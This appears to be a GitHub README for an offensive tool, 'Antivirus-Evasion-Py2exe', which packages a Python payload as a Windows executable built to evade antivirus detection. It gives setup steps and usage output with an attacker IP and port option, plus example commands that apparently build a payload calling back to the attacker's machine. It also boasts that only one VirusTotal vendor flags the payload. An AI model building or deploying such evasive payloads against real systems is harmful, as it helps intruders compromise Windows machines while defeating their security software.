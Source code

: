 # Antivirus-Evasion-Py2exe
Simple python script to evade antiviruses on fully patched and updated Windows environments using a python then converted exe payload.

Keep in mind that attempting antivirus bypass is a game. Whenever a new evasion technique gets popular, antivirus vendors will eventually learn about itand update their signatures database to block it. Then, new evasion techniques will a rise, which will make vendors to add it to their signature database, and so on.

By the time of this writing, the payload was flagged as malicious by only one vendor on Virus Total.

# Note: This script works only on Windows OS

# Prerequisite:
1. [Install Python 2.7.16 x86 for Windows](https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi)
2. [Install Py2exe 32 bits for Python 2.7](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download)

# Usage:
```C:\>python aepy2exe.py -h
                                Antivirus Evasion Py2exe
 ,.      .                         ,--.                         ;-.      ,-.
/  \     |   o     o               |                o           |  )        )
|--| ;-. |-  . . , . ;-. . . ,-.   |-   . , ,-: ,-. . ,-. ;-.   |-'  . .   /  ,-. . , ,-.
|  | | | |   | |/  | |   | | `-.   |    |/  | | `-. | | | | |   |    | |  /   |-'  X  |-'
'  ' ' ' `-' ' '   ' '   `-` `-'   `--' '   `-` `-' ' `-' ' '   '    `-| '--' `-' ' ` `-'
                                                                     `-'
usage: aepy2exe.py [-h] [-e EXECUTE] [-ip ATTACKER_IP] [-p PORT]

Antivirus Evasion Py2exe

optional arguments:
  -h, --help            show this help message and exit
  -e EXECUTE, --execute EXECUTE
                        execute py2exe
  -ip ATTACKER_IP, --attacker_ip ATTACKER_IP
                        specified attacker IP
  -p PORT, --port PORT  specified attcaker port

Example:
        C:\>python aepy2exe.py -e py2exe -ip <ip_address> -p <port>
        C:\>python aepy2exe.py -e py2exe -ip 192.168.1.10 -p 443```
  
